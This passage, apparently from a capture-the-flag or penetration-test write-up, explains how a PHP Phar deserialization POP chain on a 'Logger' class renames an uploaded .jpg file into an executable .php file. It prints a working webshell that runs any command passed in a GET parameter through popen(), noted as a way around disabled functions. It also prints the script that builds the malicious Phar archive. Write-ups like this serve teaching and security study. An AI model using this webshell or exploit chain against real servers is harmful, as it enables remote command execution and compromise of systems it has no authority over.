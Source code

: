 The function looks for a file under directory `$cur` and appends the extension saved in `$bak` to it. When the `log` function is called for the next time, it will just write to the `<dir>/<name>.<ext>` and the backup file will just sit around. Now, of course what comes to mind is to have `rotate` append `.php` instead of `.bak`, making the file in question an executable php file. Now the question is, how do we control the content of that php file. Well, we can upload a `.jpg` file containing a webshell. Then, we set:
- The `ext` variable to `.jpg` (the extension of our uploaded webshell)
- The `name` variable to `<filename>` (the filename of our uploaded webshell without extension, we get this from the cookie)
- The `dir` variable to `uploads` (the directory where uploaded webshell is in)
- The `rext` variable to `php` (which will be appended to our `uploads/<filename>.jpg` file) in the `rotate` function.

The following is what the uploaded webshell looked like. Remember: The `php.ini` we found previously file disables many webshell functions, so simply calling `system` won't work - but after looking up different possibilities, I quickly found a workaround using `popen()`.

```php
<?php

    $handle = popen($_GET['code'],'r');

    echo fread($handle,1024*4);

?>
```

I uploaded this file and took a note of the name that the server gave to it for further use in the following script.
This is what my php script looked like. It creates the class, creates the Phar Archive (notice the `__HALT_COMPILER()` function which is necessary for the webshell to work), puts it into metadata and adds a dummy file into the Archive to respect Phar Archive specifications.

```php
<?php
// Create the POP Chain
class Logger
{

	public $ext = "jpg";
	public $name = "mP7XaTthJi";
	public $dir = "uploads";
	public $rext = "php";
	
}

// Create the Phar Archive
$phar = new \Phar("test.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); )?>");

// Begin of serialization
$payload = new Logger();
$phar->setMetadata($payload);

// Zip file within the Phar Archive
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```
